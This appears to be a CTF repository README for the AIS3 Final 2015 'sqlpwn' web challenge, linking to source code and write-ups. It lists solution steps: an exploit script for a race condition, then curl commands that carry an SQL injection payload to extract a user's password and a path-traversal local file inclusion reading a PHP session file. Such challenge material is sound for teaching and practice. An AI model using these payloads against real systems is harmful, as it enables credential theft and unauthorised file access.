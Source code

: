 #### Source Code  

* [here](ais3-final-2015/sqlpwn)  

#### Solution  

* Run [exploit.py](ais3-final-2015/sqlpwn/exploit.py) to win race condition

* Login and SQL Injection

   ```bash
   $ curl http://1.2.3.4/sqlpwn.php -d 'title=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx\&note=, concat(0x3a3a3a3a3a3a,(select pass from users where name=0x6f72616e6765)))#'
   ```

* Local file inclusion with session
   ```bash
   $ curl http://1.2.3.4/sqlpwn.php?mode=admin&boom=../../../../../../var/lib/php5/sess_243220
   ```  

#### Write Ups  

* [AIS3 Final CTF Web Writeup (Race Condition & one-byte off SQL Injection)](http://blog.orange.tw/2015/09/ais3-final-ctf-web-writeup-race.html)  
* [AIS3 CTF Final Web1 & Web2](https://docs.google.com/document/d/1n-8LHsxJ6o1-Pr1ISKYyopcfLoUIQcF5CcZGl7KLbPY/edit)  



